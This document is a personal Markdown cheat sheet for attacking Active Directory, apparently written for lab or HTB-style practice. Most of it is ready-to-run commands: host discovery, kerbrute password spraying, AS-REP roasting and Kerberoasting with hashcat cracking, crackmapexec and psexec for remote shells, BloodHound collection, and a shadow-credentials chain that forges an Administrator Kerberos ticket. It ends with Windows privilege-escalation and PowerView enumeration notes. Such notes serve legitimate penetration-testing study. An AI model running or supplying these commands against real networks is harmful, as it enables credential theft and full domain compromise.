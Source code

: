 ### Active Directory

### From Linux

#### AD Strategy
1. Start with nmap, to idenftiy the network.
2. Assume Breach strategy
3.    1. Get user, groups, computers

#### How to identify alive hosts in netowrk ?
1. Run nmap ping sweep, Command: `nmap -r -sn 192.168.110.0/24`
2. Run nmap ping sweep, Command: `nmap -r -sP 192.168.110.0/24` 

#### How to identify Domain Controller (DC) ?
1. Most probably a DC would be having open PORTS e.g 53 and **88 (KDC)**, 389, 636 which are not avbl to other Windows machines.
2. If you're in DC network, Command: `nmap -r -v --open -sC -sV -p53,88,389,636 <DC IP>`
3. If above command shows these ports **OPEN** ... You got **DC** !!!

#### How to extract the underlying Windows OS via crackmapexec?
1. Command: `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.52-55`

#### How to Generate username combinations ?
1. Use https://github.com/urbanadventurer/username-anarchy

#### How to know that username/password combination is valid - crakmapexec ?
1. If running follwing crackmapexec command against **DC** gives you **+** symbol, the **creds** are valid.
2. Command:  `proxychains crackmapexec smb -d somedomain.htb -u user -p 'password' -dc-ip 192.168.110.55`

#### How to know that username/password combination is valid - kerbrute (password spray) ?
1. Command: `./kerbrute_linux_amd64 passwordspray --dc 192.168.110.55 -d somedomain.htb AD_users.txt 'password'`
2. Command: `./kerbrute_linux_amd64 -d internal.abc.local passwordspray allUsers.txt 'Password100!' --dc 192.168.210.16'`
   
##### Using impacket - To find all the usernames, email address etc?
1. Without username/password command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -dc-ip 192.168.110.55`
2. With user/password of a valid domain user command: `proxychains GetADUsers.py somedomain.htb/ -no-pass -all -dc-ip 192.168.110.55`

##### Using impacket - Authentication Service Response (AS-REP) Roasting?
1. Highly unlikely today, as by default, in **Active Directory**, it is more likely the feature that **enables** this attack is **disabled**.
2. When DC Admin creates a user in DC, he has to explictly check option **Do not require Kerberos Pre-Authentication**.
3. Commamd: `proxychains GetNPUsers.py somedomain.htb/ -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
4. Command: `proxychains GetNPUsers.py somedomain.htb/someuser:'password' -dc-ip 192.168.110.55 -usersfile ALL_AD_users.txt -format hashcat`
5. If above command shows, *User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set*, this means, it doesn't work for this user. 
6. Crack the hashes, by running command: `hashcat -a 0 -m 18200 asrep-roast-hash.txt rockyou.txt`

##### Using impacket - Kerberoasting?
1. To get hashes, run command: `proxychains GetUserSPNs.py somedomain.htb/someuser:'password' -dc-ip 192.168.110.55 -request`
2. Cracking hashes: `hashcat -m 13100 kerberoasting.txt /usr/share/wordlists/rockyou.txt`

##### What to do if you have got valid user/password credentials --- after as-rep/kerb roasting ?
1. Lets assume Kerberoasting got successful, what to do next ?
2. Run cracmapexec, and if shows **Pwn3d!**, this means you can access that particular system.
3. Command: `proxychains crackmapexec smb 192.168.110.52-55 -u http_svc -p 'somepassword'`

##### Listing all the shares - crackmapexec ?
1. Command: `proxychains crackmapexec smb 192.168.110.52 -u http_svc -p 'somepassword' --shares`

##### Accessing that system e.g. we got creds after kerberoasting ?
1. Via psexec, command: `proxychains impacket-psexec somedomain.htb/http_svc:'somepassword'@192.168.110.52`
2. The above command would you give you shell. 

#### After shell, use SYSINTERNALS AD Explorer  / Bloodhound
1. Remote Blooudhound from Kali, command: `proxychains bloodhound-python --zip -c all -d somedomain.local -u marcus -p 'Password100!' --dns-tcp -ns <DC IP address>`

#### Useful commands - Assume Breach Appraoch - You're inside the DC network with valid user/pass combination
1. **Local vs Domain** - This command tells all the users present in the current system. Command: `net user` or `net user <username>`
3. **Local vs Domain** - This command tells all the users present in all the DC. Command: `net user /domain` or `net user <username>  /domain `

#### AD Abuse - AddKeyCredentialLink [pywhisker.py -> gettgtpkinit.py - > getnthash.py -> impacket-lookupsid -> impacket-ticketer -> finally psexec / secretsdump)
1. `proxychains python3 pywhisker.py -d "somedomain.local" -u 'username' -p 'Password100'  --target "COMP-ABC-1$" --action "list"`
2. `proxychains python3 pywhisker.py -d "somedomain.local" -u 'username' -p 'Password100'  --target "COMP-ABC-1$" --action "add" --filename hacker`
3. `proxychains python3 gettgtpkinit.py -cert-pfx "hacker.pfx" -pfx-pass "VSDR4fkJazANDrGfis03" "somedomain.local/COMP-ABC-1\$" out.cache`
4. `proxychains python3 getnthash.py somedomain.local/COMP-ABC-1\$ -key bc39f3e57c5550412fbedd1430c3919f1f25f0a67117517242422029241d1c85`
5. `proxychains impacket-lookupsid somedomain.local/username@192.168.210.10(DC) | grep "Domain SID"`
6. `proxychains impacket-ticketer -nthash 89d0b56874f61ad38bad336a77b8ef2f -domain somedomain.local -domain-sid S-1-5-21-2734290894-461713716-141835440 Administrator -dc-ip 192.168.210.10(DC)`
7. `export KRB5CCNAME=Administrator.ccache`
8. `klist`
9. `impacket-psexec somedomain.local/Administrator@192.168.210.10 -target-ip 192.168.210.11(ADComputer) -dc-ip 192.168.210.10(DC) -no-pass -k`


### From Windows

#### PrivEsc in Windows
1. Vulnerablities in installed software our outdated OS or missing patches.
2. AutoLogON Passwords in Cleartext.
3. AlwaysInstallElevated.
4. Misconfigured Services. (Unquoted path etc.) 
5. DLL Hijacking.
6. NTLM relaying.
7. Local services running (chisel).
8. Tools: PowerUP + PrivESC + WinPEAS

#### Enumeration after importing Powerview
1. `Get-NetDomain`
2. `Get-DomainComputer | select samaccountname,operatingsystem` #find OS details
3. `Get-NetDomainController`
4. `Get-NetUser`
5. `Get-NetGroupMember -Identity "Enterprise Admins" -Domain  moneycorp.local` #Find enterprise admin, which is accessible on root only
   
#### Enumeration after importing Powerup
1. `Invoke-Allchecks`


#### AD Pentesting Tools
1. Obviously neo4j and bloodhound or powerhound
